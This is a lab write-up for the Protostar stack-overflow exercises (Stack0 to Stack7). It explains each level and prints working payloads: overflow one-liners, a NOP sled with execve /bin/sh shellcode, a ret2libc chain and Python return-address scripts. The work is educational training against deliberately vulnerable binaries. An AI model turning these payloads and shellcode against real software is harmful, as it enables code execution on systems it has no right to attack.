










# Exploit-Exercises Protostar Writeup - Stack
## Before Start
Here are some readings to help you understand the stack
[How to smash stack](http://insecure.org/stf/smashstack.html)

## [Stack0](https://exploit-exercises.com/protostar/stack0/)
This is a very basic overflow. Any input having a length greater than 64 works. 


## [Stack1](https://exploit-exercises.com/protostar/stack1/)
On this level, we have to overwrite the value of 'modified' to 0x61626364, which is "abcd" in ascii characters. Protostar is little endian, so we have to reverse it when we write it into a stack.    
	```./stack1 $(python -c 'print "A"*64+"dcba"')```   


## [Stack2](https://exploit-exercises.com/protostar/stack2/)
This one is almost the same as the previous one. The only difference is the buffer comes from a environment variable called "GREENIE".   
We should set the environment variable and then run the program. The commands are:    
	```
	export GREENIE=$(python -c 'print "A"*64+"0x0a0x0d0x0a0xd"')
	./stack2
	```


## [Stack3](https://exploit-exercises.com/protostar/stack3/)
This time, the varaible can be overwritten is a pointer to a function. So what we need to do is find out the address of win() and use this value to overwrite *fp (in little endian).    
Use command ```objdump -D stack3|grep win```. Now we find the address of win() is 08048424.   
Looking at the source code, we can see the buffer comes from standard input this time. So the command should be:     
	```python -c 'print "A"*64+"\x24\x84\x04\x08"' | ./stack3```    


## [Stack4](https://exploit-exercises.com/protostar/stack4/)
This challenge is about EIP overwrite. There's no variable lying on the buffer again. When we overflow the buffer, we will first overwirte the saved EBP(4 Byte), and saved EIP(4 Byte).    
So in this case, the length of the padding will be 64+4=68. And we also need to get the address of win() just as we did in last challenge. It's 080483f4. Now run it! Ooooooops! It failed!! It apperars that there's something more than saved EBP lying between the buffer and the saved EIP. We can use gdb to find it out. (You can also use a pattern long enough to overwrite the EIP and then locate it, as the program will show the error information.)     
We start gdb and set a breakpoint at main(). Then give serveral "A" as the input. We know it will not work, but it can help us to locate the start address of the buffer. Then we use ```info frame``` to check the address of saved eip. We can see it's at 0xbffff7dc.     
     
Now let's look at the data in this frame. It's easy to find that the buffer start at address 0xbffff790. So we can get the length of our padding by calculating 0xbffff7dc-0xbffff790=76. I also look at why we get 8 bytes more than expected. It saves the address of __libc_csu_init and another 4 null bytes. (I didn't figure out the purpose of it)    

The command should be:    
	```python -c 'print "A"*76+"\xf4\x83\x04\x08"' | ./stack4```    


## [Stack5](https://exploit-exercises.com/protostar/stack5/)
In this challenge, we need to exploit the buffer overflow to execute shellcode. I have no idea about what shellcode is expected in this challenge. So I decide to start first. 
The buffer start at address 0xbffff7d0. Saved EIP is at 0xbffff81c. The length is still 76. What we gonna do is to overwrite the saved EIP with the address after, and fill the buffer with our paddings. 
So the structure will look like padding + address + payload(shellcode). The payload can be found on [shell-storm.org](shell-storm.org). I use the 28 Bytes execve(/bin/sh). And then.. I got an "Illegal instrction" error. The reason can be that when the program acturally run, the address may be different with that in gdb. So instead of find out the specific address, we can use a bunch of NOP instruction (\x90) before our shellcode. We just need to make our eip point into the middle of the NOPs, then our shellcode will work.     
The structure of the input looks like:     
```"A"*76+"\x60\xf8\xff\xbf"+"\x90"*300+[shellcode]```    
And when I run the program, there's no more errors, but also no shell executed. This is not what we want. So I turned to gdb again. Then I found something really weird: when I use gdb to dubug it, the shell is actually executed.    
I stuck here for a really long time. I then searched online and found two solutions.    
[1](http://liveoverflow.com/binary_hacking/protostar/stack5.html) | [2](https://www.mattandreko.com/2011/12/17/exploit-exercises-protostar-stack-5/)    
I prefer the second one. So I changed my shellcode, and it works perfectly.     
The whole command will be:    
```python -c 'print "A"*76+"\x60\xf8\xff\xbf"+"\x90"*300+"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"' | ./stack5```    



## [Stack6](https://exploit-exercises.com/protostar/stack6/)
This challenge is a tough one. While looking at the hints, I just have the basic knowledge about those methods. I'm not so skillful at these methods. I have to learn some new stuff to pass this challenge.     
First, I went through the source code. This time, the program will validate the return address after getting buffer from Stdin. The validation is:    
```if((ret & 0xbf000000) == 0xbf000000) {..._exit(1);}```    
That means, if the return address starts with 0xbf, then the program will terminate. From previous challenges, we can know the our stack has the 0xbf addressses. Obviously, we cannot overwrite the EIP with an address in our controlled stack simply.     
We still gotta verify it (it's not mandatory but..Uh, I'm just curious). Again, use gdb to find out the addresses. For getpath() frame, EBP at 0xbffff808, EIP at 0xbffff80c. Buffer starts from 0xbffff7bc. The offset is 80. 
    
### Method1 [ret2libc]
It's not surprise that it hits the "exit" branch. We have to think about another way to attack. So I first looked at [ret2libc](./readings/ret2libc.pdf). This is a very basic and detailed tutorial. So now I learn what we need to do is ret to the address of system() and pass "/bin/sh" as parameter. Let's have a try!    
I turned into gdb, set a bp, and run stack6. I just print out the stack using ```x/1000s $esp``` to find the "/bin/sh". Luckily, I found it as part of a string. The "/bin/sh" lies at 0xbfffffba. If you cannot find it, you can set "/bin/sh" as the value of an environment variable, and then use it. System()'s address is 0xb7ecffb0.    
    
Also _exit_ and _printf_ functions' address are also necessary. On my side, _exit_ is at 0xb7ec60c0, _printf_ is at 0xb7eddf90.
The structure of the input would be **padding|system()|exit()|"/bin/sh"**. Try it! Ooooops. Not working... The same problem: the address in may be differ from the real one. ([WHY?](http://stackoverflow.com/questions/32771657/gdb-showing-different-address-than-in-code)) We can set exec-wrpper in gdb to solve the problem. (We may also look at Core Dump). I tried set a new environment variables with value "```////////////////////////////////////////////////////////////bin/sh```" to make it easier to hit this variable. (It does work)
Also, we can search '/bin/sh' in libc, so that we can avoid the unpredictable changes of environment variables.     
In gdb, at any breakpoint, use ```info proc map``` to find the address of loaded libs. 0xb7e9700 in this case. 

Then go back to our bash, ``` strings -a -t x /lib/libc-2.11.2.so | grep /bin/sh``` can help us to find the offset of '/bin/sh' in the lib, which is 0x11f3bf. Now we can easily know the address of "/bin/sh".

Okay, let's do it again.    
```
python -c 'print "A"*80+"\xb0\xff\xec\xb7"+"\xc0\x60\xec\xb7"+"\xbf\x63\xfb\xb7"' > /tmp/stack6
cat /tmp/stack6; cat | ./stack6
```     

Done!

### Method2 [ROP]
We can bypass the validation of ret address with ret2lib. However, that's not the real arbitary code execution. Even though there're a lot API to use, we cannot run our own shellcode using ret2lib. This time, we will try to bypass the ret validation and still run our shellcode on stack space.     
We gonna find 'ret' instruction in text segment (or wherever the address is not start with 0xbf). The 'ret' instruction is easy to find. In gdb, ```disass main``` ( or any other function also works) and we can find the 'ret' insturcion at 0x08048508. We can overwrite saved EIP with this address. Think about what will happen if the program runs.     
When the program returns from getpaht function, the EIP will point to another 'ret' instruction. Thus, the content at address esp+4 will then be loaded into eip, and this value is not validated. What we gonna do is using the address of 'ret' instruction as saved eip to pass validation, and fill the following address with the address of our shellcode, which works as the 'real' ret adress. 
The rest part are just the same as Stack5.    
My python script:
```
import struct

# start address: 0xbffff7bc
padding = 'A' * 76 + 'B'*4
eip = struct.pack("<I",0x08048508)
addr = struct.pack("<I",0xbffff900)
# start address: 0xbffff814
nops = '\x90' *300
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

payload = padding + eip + addr + nops + shellcode

print payload

```
   
    

## [Stack7](https://exploit-exercises.com/protostar/stack7/)
This challenge can be solved with the same as method2 (ROP) in stack6. We only have to find the new addresses.    
The python script:     
```
import struct

# start address: 0xbffff7bc
padding = 'A' * 76 + 'B'*4
eip = struct.pack("<I",0x08048553)
addr = struct.pack("<I",0xbffff7f8)
# start address: 0xbffff7ac
nops = '\x90' *100
shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

payload = padding + eip + addr + nops + shellcode

print payload
```

